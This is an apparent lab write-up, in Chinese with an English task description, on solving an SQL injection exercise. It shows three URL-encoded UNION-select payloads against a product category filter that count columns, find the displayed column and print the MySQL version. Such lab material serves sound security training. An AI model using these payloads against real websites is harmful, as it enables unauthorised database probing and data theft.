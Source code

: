 # Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

## SQL injection
* 題目說資料庫用的是 `MySQL`（`MSSQL` 拿版本的方法跟 `MySQL` 一樣）
* 注入點在 `category`
* 先看一下有多少個 columns 以及哪一個 column 可以輸出在網頁上
```
// 看有多少個 column
payload = Toys+%26+Games%27%20union%20select%20NULL,NULL%20--%20-
```
```
// 看哪一個 column 可以輸出在網頁上
payload = Toys+%26+Games%27%20union%20select%20NULL,%271%27%20--%20-
```
```
// 拿 version
payload = %27%20union%20select%20NULL,version()%20--%20-
```